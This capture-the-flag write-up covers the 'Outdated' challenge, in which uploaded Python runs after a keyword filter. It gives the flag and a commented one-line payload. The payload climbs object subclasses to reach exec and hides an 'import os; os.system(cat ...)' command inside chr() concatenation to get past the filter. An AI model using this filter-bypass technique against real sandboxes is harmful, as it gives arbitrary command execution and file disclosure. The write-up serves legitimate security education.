

# Outdated
<p align="center">
  
</p>

## FLAG:
tjctf{oops_bad_filter_3b582f74}

## Solution
The challenge again provides its source code written in python. It comes with a site that allows the upload of python source code that is executed only after its validation. Validation takes place at different points in the source code. There are several functions that check for certain words and characters in the code we upload. Despite the checks, some exploits were possible. My exploit that worked is as follows commented step by step:

```python
().__class__.__base__.__subclasses__()[84]().load_module("builtins").__dict__[chr(101)+chr(120)+chr(101)+chr(99)](chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(32)+chr(111)+chr(115)+chr(59)+chr(111)+chr(115)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(34)+chr(99)+chr(97)+chr(116)+chr(32)+chr(117)+chr(112)+chr(108)+chr(111)+chr(97)+chr(100)+chr(115)+chr(47)+chr(42)+chr(59)+chr(99)+chr(97)+chr(116)+chr(32)+chr(42)+chr(34)+chr(41))
#we select python base functions.
#we take a function that loads modules
#let's load the builtins#let's make a dictionary of the functions.
#i want to execute the function "exec"
#let's cat all the files in the home
```

its execution prints on the screen all the files present including the flag.